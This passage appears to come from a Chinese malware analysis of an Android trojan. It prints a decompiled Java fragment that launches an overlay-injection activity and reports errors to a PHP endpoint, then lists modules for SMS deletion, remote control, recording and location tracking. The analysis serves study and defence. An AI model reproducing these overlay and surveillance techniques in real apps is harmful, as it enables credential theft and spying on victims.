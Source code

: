 ```java
                Context context2 = this.b;
                //是否锁屏
                if (!((KeyguardManager) getSystemService("keyguard")).inKeyguardRestrictedInputMode()) {
                    try {
                        // 从共享偏好中获取键为 "name" 的值，并检查其是否不包含 "true"
                        if (!this.a.e(this.b, "name").contains("true")) {
                            // 启动 pltrfi ，并将目标应用包名作为额外数据传入
                            Intent putExtra = new Intent(this, pltrfi.class).putExtra("str", str);
                            putExtra.addFlags(268435456); //FLAG_ACTIVITY_NEW_TASK 新任务栈启动
                            putExtra.addFlags(8388608);   //FLAG_ACTIVITY_CLEAR_TASK 清除与新任务关联任务栈中其他任务
                            putExtra.addFlags(1073741824); //FLAG_ACTIVITY_NO_ANIMATION 取消动画
                            startActivity(putExtra);
                        }
                    } catch (Exception unused) {
                        b bVar2 = this.a;
                        Context context3 = this.b;
                        StringBuilder sb = new StringBuilder();
                        sb.append("p=");
                        b bVar3 = this.a;
                        sb.append(bVar3.c(this.a.q(this) + "|ERROR START INJECTIONS|"));//编码字符串
                        bVar2.b(context3, "4", sb.toString());//加载页面/o1o/a6.php
                    }
                }
            }
        }
    }
}
```

> 在判定手机处于开启无障碍，开启网络时会启动pltrfi页面，pltrfi中会根据前台包名，通过拦截返回手势，隐藏滚动条等操作防止页面关闭

## 0x3 其他

> 仅列出一部分

### **· 短信筛选删除 -whemsbk**

> wocwvy.czyxoxmbauu.slsa.whemsbk

### **·  远程桌面控制,录音等 -xelytgswelv**

> wocwvy.czyxoxmbauu.slsa.whemsbk

### **·  监听GPS -blkzyyyfc**

> wocwvy.czyxoxmbauu.slsa.blkzyyyfc

### **·  监听网络定位 -frvvkgp**

> wocwvy.czyxoxmbauu.slsa.frvvkgp
